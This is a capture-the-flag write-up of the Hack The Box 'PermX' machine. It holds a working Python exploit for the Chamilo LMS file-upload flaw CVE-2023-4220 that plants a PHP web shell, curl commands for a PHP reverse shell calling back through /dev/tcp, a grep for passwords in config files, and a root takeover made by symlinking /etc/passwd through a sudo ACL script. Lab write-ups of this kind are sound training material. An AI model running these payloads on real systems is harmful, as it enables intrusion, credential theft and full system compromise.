```yaml
---
layout: single
title: PermX  - Hack The Box
excerpt: "'PermX' is an Easy Difficulty Linux machine featuring a learning management system vulnerable to unrestricted file uploads via [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220). This vulnerability is leveraged to gain a foothold on the machine. Enumerating the machine reveals credentials that lead to SSH access. A 'sudo' misconfiguration is then exploited to gain a 'root' shell."
date: 2025-06-02
classes: wide
header:
  teaser: /img2/permx.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Subdomain Enumeration
  - Chamilo LMS Exploitation - Unauthenticated Command Injection [CVE-2023-4220] (RCE)
  - Information Leakage
  - Abusing Sudoers - Custom Bash Script (playing with setfacl) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.23
```

![](/img2/Pasted%20image%2020250602093054.png)

- Add domain to local DNS

```bash
echo "10.10.11.23 permx.htb" >> /etc/hosts
```

- Wfuzz to find subdomains

```bash
wfuzz -c -t 50 --hc=302 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" http://permx.htb/
```

![](/img2/Pasted%20image%2020250602094414.png)

- Add domains to local DNS

```bash
echo "10.10.11.23 www.permx.htb lms.permx.htb" >> /etc/hosts
```

- Whatweb

```bash
whatweb http://lms.permx.htb/
```

![](/img2/Pasted%20image%2020250602094727.png)

## Exploitation

- Chamilo Unauthenticated Command Injection (CVE-2023-4220)

```python
import requests
import argparse
from urllib.parse import urljoin

def upload_shell(target_url, payload_name):
    upload_url = urljoin(target_url, "main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported")
    shell_path = f"/main/inc/lib/javascript/bigupload/files/{payload_name}"
    shell_url = urljoin(target_url, shell_path)
    
    # Payload containing the PHP web shell
    files = {'bigUploadFile': (payload_name, '<?php system($_GET["cmd"]); ?>', 'application/x-php')}
    
    # Upload the payload
    response = requests.post(upload_url, files=files)
    
    if response.status_code == 200:
        print("[+] File uploaded successfully!")
        print(f"[+] Access the shell at: {shell_url}?cmd=")
    else:
        print("[-] File upload failed.")

def execute_command(shell_url, cmd):
    # Execute the command
    response = requests.get(f"{shell_url}?cmd={cmd}")
    if response.status_code == 200:
        print(f"[+] Command Output:\n{response.text}")
    else:
        print(f"[-] Failed to execute command at {shell_url}")

if __name__ == "__main__":
    # Parse command-line arguments
    parser = argparse.ArgumentParser(description="CVE-2023-4220 Chamilo LMS Unauthenticated File Upload RCE Exploit")
    parser.add_argument('target_url', help="The target base URL of the Chamilo LMS instance (e.g., http://example.com/)")
    parser.add_argument('cmd', help="The command to execute on the remote server")
    parser.add_argument('--shell', default='rce.php', help="The name of the shell file to be uploaded (default: rce.php)")
    
    args = parser.parse_args()

    # Run the exploit with the provided arguments
    upload_shell(args.target_url, args.shell)
    
    # Form the shell URL to execute commands
    shell_url = urljoin(args.target_url, f"main/inc/lib/javascript/bigupload/files/{args.shell}")
    execute_command(shell_url, args.cmd)
```

```bash
python3 exploit.py http://lms.permx.htb/ id
```
![](/img2/Pasted%20image%2020250602104125.png)

- Manual explotation

```bash
echo '<?php system("id"); ?>' > rce.php
```

```bash
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

![](/img2/Pasted%20image%2020250602103932.png)

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

![](/img2/Pasted%20image%2020250602104018.png)

- Send reverse shell

```bash
echo "<?php system(\"bash -c 'bash -i >& /dev/tcp/10.10.16.7/9000 0>&1'\"); ?>" > rce.php
```

```bash
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

![](/img2/Pasted%20image%2020250602103932.png)

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

```bash
nc -nlvp 9000
```

## Post-exploitation 

- Find leaked credentials

```bash
cd /var/www/chamilo/app/config
```

```bash
cat * | grep password -C 2
```

![](/img2/Pasted%20image%2020250602105614.png)

- Pivoting 

```bash
su mtz
```

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250602115919.png)

- Check bash file

![](/img2/Pasted%20image%2020250602120017.png)

> We only can change ACL perms in /home/mtz directory, without path traversal ".."

- Create sym link and change ACL perms

```bash
ln -s /etc/passwd etcpasswd
```

```bash
sudo /opt/acl.sh mtz rwx /home/mtz/etcpasswd
```

- Change root password in /etc/passwd

```bash
openssl passwd -1 root
```

![](/img2/Pasted%20image%2020250602120322.png)

![](/img2/Pasted%20image%2020250602120522.png)

```bash
su root
```


![](/img2/Pasted%20image%2020250602115818.png)